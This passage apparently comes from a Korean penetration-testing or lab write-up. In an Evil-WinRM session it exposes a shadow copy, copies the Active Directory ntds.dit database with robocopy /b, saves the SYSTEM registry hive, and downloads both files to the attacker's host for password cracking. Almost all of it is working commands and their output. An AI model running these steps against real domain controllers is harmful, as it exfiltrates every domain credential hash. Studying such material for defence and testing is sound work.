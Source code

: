 ```zsh
Number of shadow copies listed: 1
-> expose %exploit% z:
-> %exploit% = {5ba71102-b05c-4eac-af7c-c1bdd7670eba}
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\Temp>
```


- [4] Z:\windows\ntds 경로에 있는 `ntds.dit` 파일을 robocopy 를 통하여 C:\Temp 경로로 복사한다.  
- [5] 크래킹을 위해서는 SYSTEM 파일도 필요하므로, SYSTEM 파일도 덤프 후 공격자 호스트로 2개 파일(ntds.dit, SYSTEM) 이동한다.  

```zsh
*Evil-WinRM* PS Z:\windows\ntds> dir


    Directory: Z:\windows\ntds


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/10/2023   6:29 PM           8192 edb.chk
-a----        7/31/2025   5:00 PM       10485760 edb.log
-a----        2/23/2020   9:41 AM       10485760 edb00004.log
-a----        2/23/2020   9:41 AM       10485760 edb00005.log
-a----        2/23/2020   3:13 AM       10485760 edbres00001.jrs
-a----        2/23/2020   3:13 AM       10485760 edbres00002.jrs
-a----        2/23/2020   9:41 AM       10485760 edbtmp.log
-a----        7/31/2025   3:58 PM       18874368 ntds.dit
-a----        7/31/2025   3:58 PM          16384 ntds.jfm
-a----        7/31/2025   3:58 PM         434176 temp.edb


[ . . . ]

*Evil-WinRM* PS C:\Temp> robocopy /b Z:\Windows\ntds\ . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, July 31, 2025 5:14:43 PM
   Source : Z:\Windows\ntds\
     Dest : C:\Temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    Z:\Windows\ntds\
            New File              18.0 m        ntds.dit

*Evil-WinRM* PS C:\Temp> reg save hklm\system system

*Evil-WinRM* PS C:\Temp> download ntds.dit
*Evil-WinRM* PS C:\Temp> download SYSTEM
```
